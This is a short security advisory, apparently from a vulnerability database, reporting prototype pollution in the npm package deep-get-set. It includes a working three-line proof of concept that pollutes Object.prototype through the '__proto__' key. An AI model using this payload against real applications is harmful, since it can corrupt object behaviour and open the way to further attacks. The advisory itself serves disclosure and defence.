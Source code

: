 # Overview

`deep-get-set` is a Set and get values on objects via dot-notation strings.

Affected versions of this package are vulnerable to Prototype Pollution via the main function.

# Proof of Concept
```
const deep = require('deep-get-set');
deep({}, ['__proto__', 'polluted'], true);
console.log(polluted);
```